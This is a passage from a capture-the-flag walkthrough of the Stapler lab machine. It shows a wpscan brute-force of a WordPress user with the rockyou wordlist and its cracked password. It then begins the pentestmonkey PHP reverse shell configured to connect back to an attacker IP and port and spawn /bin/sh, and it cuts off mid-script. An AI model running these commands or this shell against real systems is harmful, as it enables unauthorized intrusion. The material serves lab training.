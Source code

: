 <p>Now let's brute force the John account. Maybe we'll find something useful? </p>

{% highlight bash %}
wpscan --url https://10.0.2.5:12380/blogblog --wordlist /usr/share/wordlists/rockyou.txt --username john

+----+-------+------+----------+
 | Id | Login | Name | Password |
 +----+-------+------+----------+
 |    | john  |      | incorrect|
 +----+-------+------+----------+
{% endhighlight %}

<p>Here we go! Password for <b>john</b> is <b>incorrect</b>. Quite ironical, right? ;)</p>

![login](/img/stapler/login.png){:class="img-responsive"}


<p>After logging in we can try our luck with <b>php reverse shell</b>. By uploading the php file, setting up a listener and viewing the file we will be able to get the shell.  But firstly let's modify our rever shell script so it will work in this situation. </p>
{% highlight php %}
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.2.7';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits